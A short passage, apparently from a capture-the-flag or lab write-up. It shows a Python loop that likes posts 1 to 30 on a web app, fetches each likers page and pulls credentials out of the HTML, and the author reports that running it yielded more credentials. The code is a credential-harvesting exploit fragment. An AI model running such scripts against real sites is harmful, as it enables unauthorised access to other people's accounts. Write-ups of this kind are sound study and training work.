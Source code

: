 ```python
    
    for post_id in range(1, 31):  # Check posts 1-30
        like_url = f"{BASE_URL}/like/{post_id}"
        likes_url = f"{BASE_URL}/likes/{post_id}"
        
        # Like the post to appear in likers
        session.get(like_url)
        
        # Fetch the likers page
        r = session.get(likes_url)
        creds = extract_creds_from_html(r.text)
        print(f"[DEBUG] Post {post_id} → Found {len(creds)} credentials")
```

Running the script got me more credentials! 

![Credential Extraction](picture12.png)
